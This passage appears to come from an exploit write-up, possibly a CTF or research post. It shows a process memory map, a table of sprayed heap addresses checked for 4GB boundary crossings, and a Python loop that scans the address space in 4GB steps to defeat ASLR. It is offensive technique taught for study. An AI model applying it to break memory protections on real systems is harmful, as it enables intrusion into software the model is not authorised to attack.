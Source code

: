 ```
7fe3d6a25000-7fe3d6a26000 r--p 00000000 fe:01 2761539                    /lib/x86_64-linux-gnu/ld-2.33.so
7fe3d6a26000-7fe3d6a4d000 r-xp 00001000 fe:01 2761539                    /lib/x86_64-linux-gnu/ld-2.33.so
7fe3d6a4d000-7fe3d6a57000 r--p 00028000 fe:01 2761539                    /lib/x86_64-linux-gnu/ld-2.33.so
7fe3d6a57000-7fe3d6a59000 r--p 00031000 fe:01 2761539                    /lib/x86_64-linux-gnu/ld-2.33.so
7fe3d6a59000-7fe3d6a5b000 rw-p 00033000 fe:01 2761539                    /lib/x86_64-linux-gnu/ld-2.33.so

...

```

Let's focus our attention on the addresses created with the memory spraying. \(*.unkyle files \)

We can try to apply the [boundary cross trick](#Boundary-cross-trick).

| mem | 4gb boundary cross? |
| - |- |
| 7fe2dc000000 | No |
| 7fe2e0000000 | No |
| 7fe2e4000000 | No |
| 7fe2e8000000 | No |
| 7fe2ec000000 | No |
| 7fe2f0000000 | No |
| 7fe2f4000000 | No |
| 7fe2f8000000 | No |
| 7fe2fc000000 | No |
| 7fe300000000 | Yes|
| 7fe304000000 | Yes|
| 7fe308000000 | Yes|

By exploiting the change from 7fe2.. to 7fe3.. we can scan memory with a step of 0x100000000 = 4gb memory.

## 4.5 Finally defeating ASLR 

Given that step size, we can scan `start=0x7f0000000000` to `end=0x800000000000` with only `end - start / size` = 256 queries.

```py
start = 0x7f0000000000
end = 0x800000000000 
step = 0x100000000 # 4gb

isMapped = False
j = 0xff
while isMapped == False:
    leakAddr = start + j*step
    isMapped = (isAddrMapped(leakAddr, 1000 + j))
    j -= 1
```
